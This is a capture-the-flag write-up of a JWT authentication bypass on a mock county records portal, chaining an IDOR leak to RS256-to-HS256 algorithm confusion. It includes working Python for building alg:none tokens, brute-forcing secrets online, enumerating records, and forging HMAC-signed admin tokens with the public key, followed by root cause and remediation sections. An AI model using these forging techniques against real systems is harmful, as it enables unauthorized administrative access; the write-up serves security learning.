# 🗝️ JWT Authentication Bypass: "The Archive"

[](https://medium.com/@khalid_abdullahi/ctf-write-up-jwt-authentication-bypass-the-archive)
-4B0082?style=for-the-badge)


> **Scope:** a CTF web challenge ("The Archive", a mock county records portal) on the p3rf3ctr00t Dojo platform. The forged admin token is redacted, since it is a live credential for a shared challenge instance.

---

## 📝 Summary

A staff portal authenticated users with a JWT, but the real flaw wasn't in the JWT library; it was in two issues that only mattered together. An IDOR in an unrelated "track a request" feature leaked an internal note revealing that the server's RS256 public key was published at a predictable path. The server's token verification then trusted the `alg` field from the token itself, so that public key could be reused as the HMAC secret for a forged HS256-signed token. Chaining the two gave a forged token with `role: admin` and full access to the protected admin queue.

| Item | Detail |
| ---- | ------ |
| **Target** | Staff authentication portal secured with JWTs |
| **Entry point** | Public web application, no initial credentials |
| **Vulnerability chain** | IDOR → information disclosure → JWT algorithm confusion |
| **Final access** | Forged admin JWT, `/admin/queue` |




## 🔗 Attack Chain

`Placeholder token hints at JWT` → `alg:none rejected` → `Weak-secret brute force rejected` → `alg case variants rejected` → `IDOR on /requests/<id>` → `Internal note leaks RS256 public key path` → `Algorithm confusion (RS256 → HS256) accepted` → `Payload fuzzing finds role field` → `Forged admin token` → `Access to /admin/queue`

---

## 📊 Findings

| # | Finding | CWE | Severity |
| - | ------- | --- | -------- |
| 1 | JWT verifier trusts the client-supplied `alg` header instead of enforcing one expected algorithm | CWE-347 | 🔴 Critical |
| 2 | RS256 public key is reused as an HMAC secret, enabling algorithm confusion | CWE-347, CWE-326 | 🔴 Critical |
| 3 | IDOR on `/requests/<id>` allows enumeration of internal records | CWE-639 | 🟠 Medium |
| 4 | Internal operational notes disclosed through a public-facing feature | CWE-200 | 🟠 Medium |
| 5 | Inconsistent error responses between signature and claim checks leak attack feedback | CWE-203 | 🟡 Low |

---

## 🔍 Methodology

### 1. Reconnaissance

The staff login page described authentication as "a signed token issued by the county identity service" and left a placeholder JWT (`eyJhbGciOi...`) in the form, both pointing at JWT handling as the intended attack surface.





A check for a standard key-discovery endpoint came back empty:

```bash
curl http://<target>/.well-known/jwks.json -v
```

That ruled out a conventional JWKS setup, but not RS256 outright, since the key could be published elsewhere.

Submitting a plain test string into the token field showed the real request flow in the browser's dev tools: the server didn't mint its own session value, it stored and re-validated whatever was submitted.




### 2. Attempt 1 — `alg: none`

A token was hand-built with an empty signature:

```python
import base64, json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

header = {"alg": "none", "typ": "JWT"}
payload = {"user": "khalid", "role": "staff"}

token = f"{b64url(json.dumps(header, separators=(',', ':')).encode())}." \
        f"{b64url(json.dumps(payload, separators=(',', ':')).encode())}."
```

**Result:** Rejected. The server performs real signature verification, so this bug class was ruled out.

### 3. Attempt 2 — HS256 secret guessing

With no legitimate signed token to crack offline, I forged a candidate with each guessed secret and checked the response live:

```python
import jwt, requests

secrets_to_try = ["secret", "changeme", "password", "riverside", "archive",
                   "records", "staff", "county", "riversidecounty", "dev",
                   "test", "admin", "key", "jwtsecret", "supersecret",
                   "s3cr3t", "riverside-county-archive",
                   "county-identity-service", "identity-service"]

for secret in secrets_to_try:
    token = jwt.encode({"user": "khalid", "role": "staff"}, secret, algorithm="HS256")
    s = requests.Session()
    s.post(f"{BASE}/admin/session", data={"token": token})
    if s.get(f"{BASE}/admin/queue").status_code == 200:
        print("FOUND:", secret)
        break
```

**Result:** All 19 candidates rejected. No weak hardcoded secret.

### 4. Attempt 3 — `alg` case manipulation

Tested whether a case-sensitive check (`if alg == "none"`) could be bypassed with variants like `None`, `NONE`, `nOnE`.



**Result:** All rejected. Validation held against this variant class too.

### 5. Pivot — IDOR in the request-tracking feature

A previously unexplored lead was the "Track a Request" feature, which used a path parameter rather than a query string:

```javascript
window.location = '/requests/' + document.getElementById('rid').value
```

That implied a simple, enumerable `GET /requests/<id>` pattern:

```python
for rid in range(1, 1050):
    r = session.get(f"{BASE}/requests/{rid}", timeout=5)
    if "Request Not Found" not in r.text:
        found_ids.append(rid)
```

Record 1003 contained an internal note: *"We've moved staff tokens over to RS256 — the public key is now published at `/static/pubkey.pem`."* This was the pivot: confirmation that RS256 was in use, and exactly where to find the key material needed for the next attack.

### 6. Attempt 4 — Algorithm confusion (RS256 → HS256)

```bash
curl -s http://<target>/static/pubkey.pem
```

A token was forged using HS256, signed with the raw public key bytes as the HMAC secret:

```python
import json, base64, hmac, hashlib

def make_token(key_bytes: bytes, payload: dict) -> str:
    header = {"alg": "HS256", "typ": "JWT"}
    header_b64 = b64url(json.dumps(header, separators=(',', ':')).encode())
    payload_b64 = b64url(json.dumps(payload, separators=(',', ':')).encode())
    sig = hmac.new(key_bytes, f"{header_b64}.{payload_b64}".encode(), hashlib.sha256).digest()
    return f"{header_b64}.{payload_b64}.{b64url(sig)}"
```

For the first time, two distinct response codes appeared instead of one generic error — the signature itself was now accepted, and the only remaining obstacle was the claims inside the payload.

| Key encoding variant | POST status | Response |
| --- | --- | --- |
| Raw file bytes, exact | 403 | "Token does not carry staff privileges." |
| Stripped trailing newline | 401 | "Invalid or expired staff token." |




### 7. Attempt 5 — Payload/claim fuzzing

With a working forgery method confirmed, the role claim was varied systematically:

```python
payload_variants = {
    "role: staff": {"user": "khalid", "role": "staff"},
    "role: admin": {"user": "khalid", "role": "admin"},
    "is_staff: true": {"user": "khalid", "is_staff": True},
    "roles array": {"user": "khalid", "roles": ["staff"]},
    "scope: staff": {"user": "khalid", "scope": "staff"},
}
```

`{"user": "khalid", "role": "admin"}` returned `200 OK` on `/admin/queue`.



---

## 🛠️ Root Cause



| Weakness | Description |
| -------- | ----------- |
| **Client-controlled `alg` header** | The server's verification logic branched on the algorithm declared inside the token instead of enforcing one expected algorithm server-side. |
| **Public key reused as a symmetric secret** | Once the RS256 public key was disclosed (via the IDOR), it could be repurposed as an HMAC key because the verifier didn't distinguish key *type* from key *material*. |
| **IDOR on `/requests/<id>`** | Sequential, unauthenticated, unvalidated IDs allowed enumeration of internal records, leaking operational details never meant for public view. |
| **Verbose differential errors** | Once past the signature check, a 403 vs. 401 distinction leaked exactly enough information to confirm the attack primitive was working. |

None of these issues is severe alone — the chain only succeeded because the IDOR leaked the information needed to carry out the algorithm confusion attack.

## ✅ Remediation

| Issue | Fix |
| ----- | --- |
| Client-controlled `alg` | Pin the expected algorithm server-side (e.g., always verify as RS256) and reject tokens whose header specifies anything else. Most JWT libraries support this directly (`jwt.decode(token, key, algorithms=["RS256"])`). |
| Key reuse across algorithms | Never let the same key material serve both RS256 verification and HS256 signing. Use algorithm-specific key types, and keep private/public key handling separate from any symmetric secret store. |
| IDOR on request tracking | Authorize each record lookup against the requester's own session instead of trusting a sequential ID. Use non-guessable identifiers (UUIDs) as a defense-in-depth measure, not as the only control. |
| Information disclosure | Keep internal operational notes out of any customer-facing data path, including ones reached through a legitimate feature. |
| Error message differentials | Return a single generic failure message for every authentication failure, logging the specific reason server-side only. |

## ✅ Key Takeaways

1. **JWTs are only as strong as their verification code**, not the algorithm itself. HS256, RS256 and `none` are all "secure" in the abstract; the vulnerability comes from trusting token-supplied metadata instead of enforcing a fixed expectation.
2. **A public key isn't safe in every context.** Publishing an RSA public key for RS256 verification is normal; it becomes dangerous the moment a verifier can be tricked into treating it as a symmetric secret.
3. **Low-severity bugs compound.** An IDOR that merely looked like information disclosure supplied the exact key material needed for a critical authentication bypass.
4. **Systematic testing beats guessing.** Ruling out each known JWT attack class in turn (`none` → weak secret → case variants → algorithm confusion) kept the search efficient instead of random.
5. **Error differentials are signal.** The shift from one generic error to a distinct 403 was the clearest confirmation that the forged signature was being accepted.

## 📚 References

- [OWASP Top 10: A07 Identification and Authentication Failures](https://owasp.org/Top10/)
- [OWASP JSON Web Token Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
- [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)
- [CWE-639: Authorization Bypass Through User-Controlled Key (IDOR)](https://cwe.mitre.org/data/definitions/639.html)
- [Auth0: Critical Vulnerabilities in JSON Web Token Libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

---

*Solved on a public CTF instance. The forged token is redacted because it remains a valid credential for that shared instance.*
